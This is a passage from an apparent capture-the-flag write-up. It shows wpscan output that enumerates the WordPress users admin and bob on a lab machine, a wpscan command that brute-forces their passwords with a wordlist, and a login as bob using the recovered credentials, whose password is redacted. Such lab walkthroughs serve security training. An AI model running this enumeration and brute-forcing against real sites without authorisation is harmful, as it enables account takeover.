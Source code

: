 ```console
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.225.113/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bob
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

### Brute-forcing the Credentials

Since we discovered the usernames, we can try brute-forcing the credentials for the users.

Once again, we can use `wpscan` for this.

```console
$ wpscan --url http://10.10.225.113/wordpress/ -U admin,bob -P /usr/share/seclists/Passwords/500-worst-passwords.txt
...
[!] Valid Combinations Found:
 | Username: bob, Password: [REDACTED]
...
```
{: .wrap }

Now, using the found credentials, we can log in to WordPress at `http://10.10.225.113/wordpress/wp-login.php` as the `bob` user.

![Web 80 Wordpress Login](/images/tryhackme_breakme/web_80_wordpress_login.webp){: width="1200" height="600" }

